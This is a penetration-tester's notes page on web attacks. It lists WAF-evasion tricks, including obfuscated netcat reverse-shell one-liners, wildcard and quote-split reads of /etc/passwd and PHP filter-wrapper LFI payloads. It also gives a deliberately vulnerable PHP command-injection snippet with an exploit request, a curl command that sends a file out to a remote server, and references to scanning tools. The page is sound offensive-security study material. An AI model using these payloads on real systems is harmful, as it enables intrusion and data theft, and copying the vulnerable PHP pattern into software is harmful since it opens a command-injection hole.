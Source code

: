 ```yaml
---
description: >-
  TODO: Need to pull web notes out of the OS Agnostic section (and then rename
  that to something better!)
---
```


# Web Notes

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Payloads and Bypass Methods for Web Filtering

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" caption="swisskyrepo / PayloadsAllTheThings" %}

{% embed url="https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/" caption="How To Exploit PHP Remotely To Bypass Filters & WAF Rules" %}

### Use Uninitialized Shell Variables to Bypass Filters

{% embed url="https://www.secjuice.com/web-application-firewall-waf-evasion/" caption="Web Application Firewall \(WAF\) Evasion Techniques \#3" %}

Uninitialized shell variables can be used for bypassing web application firewalls \(WAF\).  Example: bypassing a filter to execute a reverse shell - `nc$u -e /bin$u/bash$u <ip> <port>`.  If this doesn't work try adding spaces before and after the variable \(note the `+`'s, this example is also URL encoded\): `nc+$u++-e+/bin$u/bash$u <ip> <port>` _\(`$u` in this case is a random attacker-picked variable that would hopefully be uninitialized on the target\)._

### Use Wildcards to Bypass Filters

{% embed url="https://medium.com/secjuice/waf-evasion-techniques-718026d693d8" caption="Web Application Firewall \(WAF\) Evasion Techniques" %}

Bypass web filters by using bash wildcards:`/???/?s` `/?cmd=%2f???%2f??t%20%2f???%2fp??s??` will bypass...and execute every command that matches. such as `/bin/cat /etc/apt`, and `/bin/cat /etc/passwd`

netcat firewall bypass: `/???/n? -e /???/b??h 2130706433 1337` \(`/???/?c.??????????? -e /???/b??h 2130706433 1337` for nc traditional\)

```text
Standard: /bin/nc 127.0.0.1 1337
Evasion:/???/n? 2130706433 1337
Used chars: / ? n [0-9]

Standard: /bin/cat /etc/passwd
Evasion: /???/??t /???/??ss??
Used chars: / ? t s
```

### Use String Concatenation to Bypass Filters

```text
$ /bin/cat /etc/passwd
$ /bin/cat /e'tc'/pa'ss'wd
$ /bin/c'at' /e'tc'/pa'ss'wd
$ /b'i'n/c'a't /e't'c/p'a's's'w'd'
Can use \\ instead of ' as well
```

### Convert IP Address to Decimal Format 

It is still understood by most programs and languages, and avoids `.` character in filtered HTTP requests: `127.0.0.1 = 2130706433`

### LFI / RFI by Bypassing Filters Using Wrappers

From [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/73aa26ba6891981ec2254907b9bbd4afdc745e1d/File%20Inclusion/README.md#lfi--rfi-using-wrappers)   `php://filter/` has multiple ways to bypass PHP input filters ;These can be chained with `|` or `/` : zip, data, expect, input, phar; many more different wrappers to try!

```php
/zlib.deflate/read=string.rot13/convert.base64-encode/convert.iconv.utf-8.utf-16/resource=<resource to get>
```

## Command Injection

{% embed url="https://owasp.org/www-community/attacks/Command\_Injection" %}

### PHP Command Injection

The following PHP code snippet is vulnerable to a command injection attack:

```php
<?php
print("Please specify the name of the file to delete");
print("<p>");
$file=$_GET['filename'];
system("rm $file");
?>
```

The following request is an example of that will successful attack on the previous PHP code, and will output the results of the `id` command: `http://127.0.0.1/delete.php?filename=bob.txt;id`.  Look for exposed `$_GET['filename']` type variables that take input from the user, or can be injected into from the URL.  This combined with `system("<command>")` will allow for command injection.

Local File Inclusion \(LFI\) / Remote File Inclusion \(RFI\)

Common and/or useful files to check for when exploiting Local File Inclusion \(for both Linux and Windows\): [https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI](https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI)

## To sort

Use `curl` to exfiltrate file on remote server \(from attackers box\): `curl -d @/<file> <remote server>`

in order to proxy tools that have no proxy option: create burn proxy 127.0.0.1:80 [Ippsec:HacktheBox - Granny & Grandpa](https://www.youtube.com/watch?v=ZfPVGJGkORQ)

vulnerability testing for webdav \(or other file upload vulns!\): `davtest`

bypassing filetype filters with http MOVE command to rename allowed filetype [Ippsec:HacktheBox - Granny & Grandpa](https://www.youtube.com/watch?v=ZfPVGJGkORQ)

Wordpress enumeration: `wpscan -u <url> [--disable-tls-checks]`

pull Google cached webpage if regular site not loading: `cache:https://<somewebsite>`

virtual host routing: substitute ip for hostname to get different results

gobuster:

```bash
gobuster -u <url> -l -w <wordlist> -x php -t 20
[-l include length, -x append .php to searches, -t threads]
```

hydra against http wordpress login walkthrough: [IppSec:HacktheBox - Apocalyst](https://www.youtube.com/watch?v=TJVghYBByIA)

web application fuzzer: [wfuzz](https://github.com/xmendez/wfuzz)

Web site "flyover" surveillance: [Aquatone](https://github.com/michenriksen/aquatone) "is a tool for visual inspection of websites across a large amount of hosts and is convenient for quickly gaining an overview of HTTP-based attack surface" - from the author \(see link\). Visual dirbuster?

